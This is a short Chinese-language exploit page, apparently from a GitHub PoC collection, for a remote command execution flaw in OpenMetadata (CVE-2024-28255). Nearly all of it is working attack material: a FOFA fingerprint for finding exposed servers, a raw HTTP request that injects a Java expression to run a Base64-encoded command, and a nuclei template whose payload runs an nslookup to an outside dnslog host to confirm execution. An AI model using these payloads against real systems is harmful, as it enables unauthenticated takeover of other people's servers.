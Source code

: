 ## OpenMetadata命令执行(CVE-2024-28255)

## fofa
```
icon_hash="733091897"
```

## poc
```
GET /api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/T(java.lang.Runtime).getRuntime().exec(new%20java.lang.String(T(java.util.Base64).getDecoder().decode(%22Base64编码命令%22))) HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
Connection: close
Accept-Encoding: gzip
```

![78d091e4fbeaf6007c6605c09ff4025d](https://github.com/wy876/POC/assets/139549762/977f9bcb-c7f7-4a73-9918-9c06844c1436)


## nuclei POC
```
id: CVE-2024-28255

info:
  name: CVE-2024-28255
  author: xiaoming
  severity: high
  description: OpenMetadata Command Execution
  metadata:
    max-request: 1
    shodan-query: ""
    verified: true

http:
- raw:
  - |+
    GET /api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/T(java.lang.Runtime).getRuntime().exec(new%20java.lang.String(T(java.util.Base64).getDecoder().decode(%22bnNsb29rdXAgdGVzdC5kbnNsb2cuY24=%22))) HTTP/1.1
    Host: {{Hostname}}
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0
    Connection: close
    Accept-Encoding: gzip

  redirects: true
  matchers-condition: and
  matchers:
  - id: 1
    type: word
    part: body
    words:
    - "400"
    - java.lang.ProcessImpl
    condition: and
```
